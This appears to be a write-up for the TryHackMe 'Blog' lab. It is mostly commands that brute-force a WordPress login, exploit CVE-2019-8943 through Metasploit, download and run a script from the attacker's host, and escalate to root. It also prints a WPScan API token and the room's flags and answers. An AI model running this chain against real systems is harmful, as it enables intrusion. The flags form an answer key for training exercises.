 ```yaml
---
description: https://tryhackme.com/room/blog
---
```


# Blog

![](../../.gitbook/assets/10.10.191.254.png)

## Task 1 Blog

```bash
echo '10.10.191.254 blog.thm' | sudo tee -a /etc/hosts
nmap -n -sV -sC blog.thm
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 18-11-52.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-23 18-15-02.png>)

```bash
wpscan --url blog.thm -e u
wpscan --url blog.thm -e vt \
       --api-token dakoGZasmsRjcPTs7mfuWqv1dMwhcVoaHba8qnXyXjs
wpscan --url blog.thm --usernames kwheel \
       --passwords /usr/share/wordlists/rockyou.txt -t 64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 18-16-16.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-23 18-24-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-23 20-12-39.png>)

```bash
msfconsole -q
msf > search CVE-2019-8943
msf > use 0
msf > set RHOST blog.thm
msf > set LHOST 10.6.9.176
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 18-27-11.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-23 20-20-41.png>)

```bash
meterpreter > search -d / -f user.txt
meterpreter > cat /home/bjoel/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 20-21-48.png>)

```bash
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
wget http://10.6.9.176/suid3num.py -P /tmp
python /tmp/suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 20-26-14.png>)

```bash
ltrace /usr/sbin/checker
admin=1 /usr/sbin/checker
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-23 20-31-44.png>)

#### root.txt

{% hint style="success" %}
`9a0b2b618bef9bfa7ac28c1353d9f318`
{% endhint %}

#### user.txt

{% hint style="success" %}
`c8421899aae571f7af486492b71a8ab7`
{% endhint %}

#### Where was user.txt found?

{% hint style="success" %}
`/media/usb`
{% endhint %}

#### What CMS was Billy using?

{% hint style="success" %}
`WordPress`
{% endhint %}

#### What version of the above CMS was being used?

{% hint style="success" %}
`5.0`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.191.254.xmind" %}
